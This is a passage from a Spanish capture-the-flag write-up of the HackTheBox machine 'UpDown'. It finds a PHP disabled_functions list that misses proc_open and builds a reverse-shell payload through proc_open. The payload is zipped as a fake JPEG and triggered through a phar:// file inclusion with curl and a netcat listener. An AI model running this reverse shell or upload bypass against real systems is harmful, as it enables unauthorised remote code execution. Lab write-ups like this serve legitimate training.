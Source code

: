 Si copiamos las disabled functions las metemos en el archivo "disabled_functions" y con vim sustituimos las , por retorno de  carro -> ```:%s/,/\r/g```
Acabamos con una lista bien clara de las funciones prohibidas entre las que estan system, exec o shell_exec entre todas.  

![](/assets/images/htb-updown/updown6.PNG)

Esta es una lista de las funciones que nos permiten ejecutar comandos (lo metemos en un archivo llamado dangerous)
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,ld,mail
```
Si les hacemos el mismo formateo que el otro archivo (quitando las ",")

```
└─$ diff <(cat dangerous) <(cat disabled_function)
# < proc_open es la unica que les ha faltado quitar
```

Nunca he usado esta funcion, en la web de [php](https://www.php.net/manual/en/function.proc-open.php)
```php
<?php
$cmd="bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'";
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($cmd, $descriptorspec, $pipes);
?>
```
```console
└─$ zip shell.jpeg proc_open.php
```
Se sube
```
└─$ curl -s -H "Special-Dev: only4dev" 'http://dev.siteisup.htb/?page=phar://uploads/11b42026fc92308ec770427677734fa7/shell.jpeg/proc_open'
└─$ sudo nc -nlvp 443
www-data@updown:/var/www/dev$ 
```
------------------------------------------------
# Part 5: Explotando python2
